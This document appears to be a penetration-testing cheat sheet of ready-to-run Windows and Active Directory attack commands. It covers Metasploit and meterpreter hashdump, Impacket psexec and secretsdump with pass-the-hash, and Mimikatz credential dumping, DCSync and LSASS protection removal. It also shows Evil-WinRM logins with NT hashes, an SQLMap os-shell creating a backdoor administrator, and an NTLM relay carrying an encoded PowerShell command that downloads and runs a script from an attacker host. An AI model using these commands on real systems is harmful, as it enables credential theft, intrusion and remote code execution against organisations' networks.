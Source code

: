 # Cheat Sheet - Exploitations and Shell

## Table of Content

* [Metasploit](#Metasploit)
* [Impacket](#Impacket)
* [Mimikatz](#Mimikatz)
* [Evil-WinRM](#Evil)
* [SQLMap](#SQLMap)
* [Relay Hash](#Relay)
* [PrintSpoofer](#Spoofer)
* [PSSession](#Session)
* [PsExec](#Exec)

### Metasploit<a name="Metasploit"></a>

```bash
auxiliary/scanner/portscan/tcp
exploit/multi/script/web_delivery
exploit/windows/local/bypassuac_fodhelper
post/windows/gather/credentials/enum_laps

meterpreter > load powershell
meterpreter > load incognito
meterpreter > load kiwi
meterpreter > hashdump

meterpreter > execute -H -f notepad
Process 3400 created.
meterpreter > migrate 3400
```

### Impacket<a name="Impacket"></a>
```bash
# Normal Usage
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@dc03.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:5f3421ca3b673adfdc2418f368ca3760" -target-ip 192.168.x.x

proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py sinhack.com/administrator@dc01.dev.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:0264d5b0a74d30f13f1fec243e8ac3cb" -target-ip 172.16.10.12 -dc-ip 172.16.10.11

proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py v0lk3n@sinhack.com -target-ip 172.16.x.x

# With Kerberos Authentication
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/v0lk3n@dc01.sinhack.com -k -no-pass -debug

proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/v0lk3n@DC01.SINHACK.COM -k -no-pass

# Examine the list of domain users with GetADUsers.py and Kerberos
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.x.x SINHACK.COM/Administrator

# Get a list of the SPNs available to our Kerberos user.
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.x.x SINHACK.COM/Administrator

```

### Mimikatz<a name="Mimikatz"></a>

```bash
mimikatz # privilege::debug

# Pass the Hashes
mimikatz # sekurlsa::pth /user:admin /domain:dev1 /ntlm:1242C26BCD32E7A70F2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"

# Dump Logon passwords and others credentials
mimikatz # sekurlsa::logonpasswords

# Abusing DCSYNC and SPOOLSS service.
mimikatz # lsadump::dcsync /domain:sinhack.com /user:krbtgt
mimikatz # lsadump::dcsync /domain:sinhack.com /user:Administrator
mimikatz # lsadump::dcsync /domain:sinhack.com /user:sinhack\Administrator

#Disable the LSA protection and dump the credentials.
## Upload the mimidrv.sys to the victim and load the driver with Mimikatz
mimikatz # !+

## Disable the PPL protection for LSASS :
mimikatz # !processprotect /process:lsass.exe /remove

```

### Evil WinRm<a name="Evil"></a>

```bash
sudo gem install evil-winrm

proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H NT_HASH
proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H 6DB6CFDF45964A02A80E85A7AB9F4314
```

### SQLMap<a name="SQLMap"></a>

```bash
sqlmap -u 'TARGET_URL' --batch --dbs
sqlmap -u 'TARGET_URL' --os-shell --flush-session

os-shell> net user /add v0lk3n Fucked123!
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> net localgroup administrators v0lk3n /add
do you want to retrieve the command standard output? [Y/n/a] n
```

### Relay Hash<a name="Relay"></a>

```bash
sudo responder -I tun0
sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.x.x -c 'powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4AMQAxADIAOgA4ADAAOAAwAC8AcABzAHIAdQBuAG4AZQByAC4AdAB4AHQAJwApAA=='
```

### PrintSpoofer<a name="Spoofer"></a>

```bash
PrintSpoofer64.exe -i -c cmd.exe
```

###PSSession<a name="Session"></a>

```bash
Enter-PSSession -Computer secret01.dev.sinhack.com
```

### PsExec<a name="Exec"></a>

```bash
PsExec64.exe \\dev1.secret.sinhack.com cmd
```
